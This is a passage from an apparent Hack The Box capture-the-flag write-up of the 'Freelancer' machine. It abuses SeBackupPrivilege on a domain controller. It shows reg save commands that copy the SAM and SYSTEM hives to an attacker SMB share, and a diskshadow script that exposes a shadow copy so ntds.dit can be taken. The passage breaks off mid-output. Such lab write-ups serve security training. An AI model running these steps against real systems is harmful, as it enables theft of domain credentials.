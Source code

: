 I’ve exploited this a couple times before, most recently on [BlackField](/2020/10/03/htb-blackfield.html#). On Blackfield, I showed the exploit using compiled DLLs. Here I’ll exploit it by getting a backup copy of `ntds.dit` using `diskshadow`.

I’ll create a SMB share using `smbserver.py` for transfer of files to and from Freelancer. I’ll grab copies of the SAM and SYSTEM hives (which I can read because of `SeBackupPrivilege`):

```
*Evil-WinRM* PS C:\> reg save hklm\sam \\10.10.14.6\share\sam
The operation completed successfully.
*Evil-WinRM* PS C:\> reg save hklm\system \\10.10.14.6\share\system
The operation completed successfully.

```

This is enough to get the local hashes, but not the domain hashes. For that I need `ntds.dit`, which can’t be read directly. I’ll use `diskshadow`, which will take a script, saved as `backup`:

```

set verbose on
set context persistent nowriters
set metadata C:\Windows\Temp\0xdf.cab
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup

```

The script will set the `metadata` location (not important, but it needs to exist). It’ll set the backup to be “client accessible” so that they are accessible by me. Then it starts the backup, backing up the `C:\` drive into a volume named `cdrive`, and then exposing that drive as `E:`.

I’ll create this script on my computer and then use `unix2dos` to format it for Windows:

```

oxdf@hacky$ vim backup
oxdf@hacky$ unix2dos backup 
unix2dos: converting file backup to DOS format...

```

I’ll run `diskshadow` passing it the script:

```
*Evil-WinRM* PS C:\programdata> upload backup

Info: Uploading /media/sf_CTFs/hackthebox/freelancer-10.10.11.5/backup to C:\programdata\backup

Data: 228 bytes of 228 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> diskshadow /s backup
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/15/2024 2:59:17 PM
-> set verbose on
-> set context persistent nowriters
-> set metadata C:\Windows\Temp\0xdf.cab
The existing file will be overwritten.
-> begin backup
-> add volume C: alias cdrive
-> create

Alias cdrive for shadow ID {da62a7a6-9ab3-414e-9721-62509d79f850} set as environment variable.
```